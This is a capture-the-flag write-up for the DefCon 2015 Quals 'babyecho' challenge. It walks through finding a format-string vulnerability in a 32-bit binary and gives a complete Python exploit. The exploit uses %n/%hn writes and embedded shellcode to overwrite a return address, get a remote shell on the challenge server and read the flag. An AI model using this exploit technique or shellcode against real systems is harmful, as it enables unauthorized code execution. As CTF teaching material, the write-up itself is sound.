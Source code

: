 ```yaml
---
layout: post
title: "DefConCTF 2015 Quals - babyecho Writeup"
date: 2015-05-18 21:45:44 +0430
comments: true
categories: defcon pwn fmt
---
```


**DefConCTF 2015 babycho Writeup**  
**Point = 1**  
**Category = Pwnable**  

> babyecho_eb11fdf6e40236b1a37b7974c53b6c3d

```
$ file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
babyecho_eb11fdf6e40236b1a37b7974c53b6c3d: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=c9a66685159ad72bd157b521f05a85e2e427f5ee, stripped
$ checksec.sh --file babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
```

First try got my attention:

```
$ ./babyecho_eb11fdf6e40236b1a37b7974c53b6c3d
Reading 13 bytes
%p%p%p%p
0xd0xa(nil)0xd
Reading 13 bytes
```

There is format string vulnerability, and based on binary properties we should run our shellcode.

<!--more-->

but there's a limit, 13 bytes? right?

time to take a look at binary in IDA, the main function is `sub_8048F3C`.
some resolving symbols the function looks like this:

```
int sub_8048F3C()
{
  signed int v0; // eax@2
  int v3; // [sp+10h] [bp-410h]@1
  int v4; // [sp+1Ch] [bp-404h]@4
  int v5; // [sp+41Ch] [bp-4h]@1

  v5 = *MK_FP(__GS__, 20);
  v3 = 13;
  setvbuf((int)off_80EA4C0, 0, 2, 0);
  signal(14, (int)sub_8048EB1);
  alarm(10);
  while ( 1 )
  {
    v0 = 1023;
    if ( v3 <= 1023 )
      v0 = v3;
    v3 = v0;
    printf("Reading %d bytes\n", v0);
    reado((int)&v4, v3, 10);
    filter_n((int)&v4);
    printf((const char *)&v4);
    alarm(10);
  }
}
```

the `filter_n` function just checks for `%n` and filters it as `_n`.

if i overwrite `v0` i can send my shellcode and return to it.

i just need to know the offset, and gdb says it is 7:

```
Reading 13 bytes
%p%p%p%p
[-------------------------------------registers--------------------------------------]
EAX: 0xffffc86c ("%p%p%p%p")
EBX: 0x80481a8 (push   ebx)
ECX: 0x0 
EDX: 0xffffffff 
ESI: 0x0 
EDI: 0x80ea00c --> 0x80660a0 (mov    edx,DWORD PTR [esp+0x4])
EBP: 0xffffcc78 --> 0x80497d0 (push   ebx)
ESP: 0xffffc850 --> 0xffffc86c ("%p%p%p%p")
EIP: 0x804900f (call   0x804f560)
[----------------------------------------code----------------------------------------]
   0x8049003:   call   0x8048ecf
   0x8049008:   lea    eax,[esp+0x1c]
   0x804900c:   mov    DWORD PTR [esp],eax
=> 0x804900f:   call   0x804f560
   0x8049014:   mov    DWORD PTR [esp],0xa
   0x804901b:   call   0x804fde0
   0x8049020:   mov    DWORD PTR [esp],0x14
   0x8049027:   call   0x806cb50
Guessed arguments:
arg[0]: 0xffffc86c ("%p%p%p%p")
[---------------------------------------stack----------------------------------------]
00:0000| esp 0xffffc850 --> 0xffffc86c ("%p%p%p%p")
01:0004|     0xffffc854 --> 0xd (b'\r')
02:0008|     0xffffc858 --> 0xa (b'\n')
03:0012|     0xffffc85c --> 0x0 
04:0016|     0xffffc860 --> 0xd (b'\r')
05:0020|     0xffffc864 --> 0xffffc86c ("%p%p%p%p")
06:0024|     0xffffc868 --> 0x0 
07:0028| eax 0xffffc86c ("%p%p%p%p")
[------------------------------------------------------------------------------------]
Legend: stack, code, data, heap, rodata, value

Breakpoint 2, 0x0804900f in ?? ()
```

Obviously, first i should leak the stack address at offset 5, then overwrite the `v0` so i send my shellcode, but the main part is how to break the loop. for this i just overwrite return address of `printf` and then jump to my shellcode.

TL;DR
Please check my implementation:

```
#!/usr/bin/python

import socket
import struct
import telnetlib

def readuntil(f, delim='\n'):
    data = ''
    while not data.endswith(delim):
        c = f.read(1)
        assert len(c) > 0
        data += c
    #print data
    return data

def p(v):
    return struct.pack('<I', v)

def u(v):
    return struct.unpack('<I', v)[0]


#s = socket.create_connection(("127.0.0.1", 1337))
s = socket.create_connection(("babyecho_eb11fdf6e40236b1a37b7974c53b6c3d.quals.shallweplayaga.me", 3232))
f = s.makefile('rw', bufsize=0)

raw_input("$") # attach debugger


shellcode = (
"\xeb\x12\x31\xc9\x5e\x56\x5f\xb1\x15\x8a\x06\xfe\xc8\x88\x06\x46\xe2"
          "\xf7\xff\xe7\xe8\xe9\xff\xff\xff\x32\xc1\x32\xca\x52\x69\x30\x74\x69"
                  "\x01\x69\x30\x63\x6a\x6f\x8a\xe4\xb1\x0c\xce\x81"
        )

readuntil(f)
f.write("%p"*5+"\n")
loc =  int(readuntil(f)[:-1].split("0x")[-1], 16)  - 0x0c

readuntil(f)
f.write(p(loc)+"%30u%7$n\n")



readuntil(f)
f.write(p(loc)+"%1200u%7$n\n")

readuntil(f)

wrl = loc+100 & 0xffff
wrh = (loc+100 >> 16 ) & 0xffff

print hex(wrl), hex(wrh)

payload = p(loc-0x14)+"%0{i}c".format(i=wrl)+"%0007$hn"+"%0{i}c".format(i=(wrh-wrl-8))+p(loc-0x12)+"%0014$hn"+p(loc-0x12)+"A"*48+shellcode+"A"*(1024 - 48 - len(shellcode))+"\n"
print payload


f.write(payload)

print "[+] shell is ready: "
t = telnetlib.Telnet()
t.sock = s
t.interact()
```

there you go:

```
$ python babyecho-expl.py
0x4a24 0xffd2
�I��%018980c%0007$hn%046502c
[...]
cat /home/babyecho/flag 
The flag is: 1s 1s th3r3 th3r3 @n @n 3ch0 3ch0 1n 1n h3r3 h3r3? 3uoiw!T0*%
``` 

@HAMIDx9
